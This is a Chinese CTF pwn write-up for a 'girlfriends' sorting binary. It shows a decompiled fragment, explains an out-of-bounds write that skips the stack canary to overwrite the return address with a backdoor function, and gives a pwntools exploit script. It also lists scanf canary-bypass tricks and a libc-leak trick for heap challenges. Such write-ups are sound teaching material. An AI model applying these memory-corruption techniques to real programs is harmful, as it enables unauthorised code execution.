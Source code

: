```c
    qsort(base, v2, 4uLL, compar);
  }
  return __readfsqword(0x28u) ^ v10;
}
```

有canary保护，但是有数组超界还有后门函数。输入girlfirends数量会进行排序，没用控制v2的大小。

qsort会改变数组顺序，int大小为四字节，经计算canary在第11，12个参数，ret address是第15个。

第一次输入一个小的数，例如1，2，保证canary不会被修改。

第二次change，写入27就不会进行排序，修改ret就能直接到达后门函数了。

## exp

```python
.log_level='debug'
context.arch="amd64"
#p= remote('219.152.60.100',54232)
p=process('./pwn')
elf=ELF('./pwn')

backdoor=0x400C04
#gdb.attach(p)
p.sendline('@')
p.sendline('^')
p.sendline('aa')
p.sendlineafter("how many girlfriends do you have?",'1')
p.sendlineafter("th girlfriends:",'1')

p.sendlineafter("you can change your girlfriend",'0')
p.sendlineafter("which girlfriend do you want to change?",'27')
for i in range(14):
	p.sendlineafter("now change:",'-')
p.sendlineafter("now change:",'4197380')
for i in range(27-15):
	p.sendlineafter("now change:",'-')

p.interactive()
```

## scanf

1、scanf("%u",&num);
如果题目存在数组越界，但是开了canary保护，可以通过输入带符号整数来绕过canary

如果输入带符号整数，可以不写入数据，scanf直接ret

 例如：-456465、+12313

 2、scanf("%d",&num);

 如果题目存在数组越界，但是开了canary保护，可以通过输入负号来绕过canary

 如果输入负号，可以不写入数据，scanf直接ret

 例如：-

 3、堆题构造libc地址

 Ubuntu16.04在已经存在free的fastbin的时候输入0x401个数字，就可以在fastbin中写入libc，如果存在uaf漏洞，就可以实现libc leak
